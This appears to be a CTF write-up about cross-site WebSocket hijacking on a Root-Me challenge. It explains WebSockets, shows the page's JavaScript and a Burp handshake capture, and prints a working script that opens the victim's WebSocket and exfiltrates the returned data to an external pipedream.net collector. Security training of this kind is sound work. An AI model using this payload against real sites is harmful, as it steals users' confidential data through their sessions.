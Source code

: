 ```yaml
---
title: XSS Vulnerabilities
Summary: Unprotected Websocket challenge
date: "2025-03-23"

---
```


![Websocket_1](websockets.svg)

# Introduction

Today I'm going to talk about web sockets, you may have found `wss://` or `ws://` somewhere and wonder what's that, well I'll try to explain the best I can :)

## What are web Sockets?
WebSockets are widely used in modern web applications. They are initiated over HTTP and provide long-lived connections with asynchronous communication in both directions.
WebSockets are used for all kinds of purposes, including performing user actions and transmitting sensitive information. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications. 

## What is the difference between HTTP and WebSockets?

Most communication between web browsers and web sites uses HTTP. With HTTP, the client sends a request and the server returns a response. Typically, the response occurs immediately, and the transaction is complete. Even if the network connection stays open, this will be used for a separate transaction of a request and a response. 

WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data. 

## How are WebSocket connections established?

WebSocket connections are normally created using client-side JavaScript like the following:
var ws = new WebSocket("wss://target-website.com/room");

## Check connection status
If you head to the !["mozilla mdn docs"](https://developer.mozilla.org/en-US/docs/Web/API/WebSocket/readyState) there is a rich page with really useful information about the websocket connection state. This way we can ensure wether we're connected (or not!):

| Value |    State   |                        Description                       |
|:-----:|:----------:|:--------------------------------------------------------:|
| 0     | CONNECTING | Socket has been created. The connection is not yet open. |
| 1     | OPEN       | The connection is open and ready to communicate.         |
| 2     | CLOSING    | The connection is in the process of closing.             |
| 3     | CLOSED     | The connection is closed or couldn't be opened.          |

This is the information that we need!

## Check for javascript files.
We can crawl through the website and see some javascript page:
[...]
```js
 var connection = new WebSocket('ws://'+window.location.hostname+'/ws');  
    connection.onopen = function () {};  
    connection.onerror = function (error) {
      alert("An error occured, you will reload the page for you to access a new room !")
      location.reload()
    };
    connection.onmessage = function (message) {
      $("#chatbox").append("You: "+$("#input").val().replace('<','').replace('>','')+"\n")
      $("#chatbox").append("\nBot: "+message["data"].replace('<','').replace('>','')+"\n-------------------------------------------------------------\n")
      $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
      $("#input").val("")
    };
```
[...]
## Begin the connection.

```javascript
var ws = new WebSocket('ws://'+window.location.hostname+'/ws');
ws.readyState // this should return 1 ^^

// CSRF
ws.onmessage = function (message) {
      $("#chatbox").append("You: "+$("#input").val() + "\n")
      $("#chatbox").append("\nBot: "+message["data"] + "\n-------------------------------------------------------------\n")
      $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
      $("#input").val("")
    };
```
<script>
websocket = new WebSocket('ws://ctf02.root-me.org/ws')
websocket.readyState;
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://eoj1ovww5kfcgvi.m.pipedream.net/?'+event.data, {mode: 'no-cors'})
}
</script>

# Let's get this party started

First, let's analyze if there's any CSRF TOKEN, if the connection is secured only by the cookie, we can hijack the user the html files for example, from another domain.
Let's open burp and initiate a WS connection, what do we see?

```html
GET /ws HTTP/1.1
Sec-WebSocket-Version: 13
Origin: http://ctf10.blabla
Sec-WebSocket-Key: iTI6sd0uJHFmgn5gu8kHLA==
Connection: keep-alive, Upgrade
Cookie: _ga_SRYSKX09J7=GS1.1.1659040468.3.1.1659042535.0; _ga=GA1.1.239451001.1658089567; connect.sid=s%3AdFQWhWUSdk2LvNXIraAJOcP3Gdr5Zw5z.1aRYfGUzzd6cOK5KeH6zNeTdzwOcvbFYngmjfzMecyY
Upgrade: websocket
```

Response:
```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: mi0J6oYY40on/uTajuMWA/m+Ckc=
```

See, 3 cookies are set and there's nothing regarding CSRF tokens, looks nice.... but what about if we delete the cookies and reconnect again, will we be able to interact with the server?

sending ws message:
> Unable to verify your identity, please log in before chatting with me.

We got something!!! Now that we don't have any cookie, the connection is being made but requests are being rejected by WSS: We need some cookies!
Cookies can be gathered from a victim's pov

ws://ctf04.root-me.org/ws
